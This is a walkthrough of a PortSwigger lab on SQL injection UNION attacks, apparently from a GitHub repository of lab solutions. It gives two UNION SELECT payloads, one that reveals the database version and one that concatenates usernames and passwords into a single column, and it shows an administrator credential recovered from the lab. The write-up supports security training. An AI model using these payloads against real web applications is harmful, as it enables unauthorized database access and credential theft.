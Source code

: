 ## Lab Description: SQL injection UNION attack, retrieving multiple values in a single column

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/e3d04311-d166-4ed9-b258-1b33f773fd03)

Solution:

First find the database which is used

I want to extract both usernames and passwords, while only having a single string column. For this, I can concatenate multiple values into single fields. The syntax depends on the database engine, so find out which database is used to drive the page.

` +Union+select+null,version()+from+users+-- `

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/91638dd5-c634-4ae3-b8b3-5a90ce0a1827)

### Extracting Username and Password
I know that users contain username and password.As I have just a single string column, I can either issue two queries and manually combine the data or concatenate these values into a single string to be able to extract them in one go.

` +union+select+null,username+||+'~~'+||password+from+users+-- `

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/370a7811-ace4-495e-a70a-987b7f871e89)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/1eea050f-4b2d-4ffd-bd6b-42fc940e7783)

` administrator~~r7yy2wjuwby38u4rk3je `

![Screenshot 2024-01-28 101850](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/92892d6a-87f5-47e8-b1db-3f125e858b59)

![Screenshot 2024-01-28 101907](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/c6426aea-03de-40d6-a0b8-fe050737bf8b)

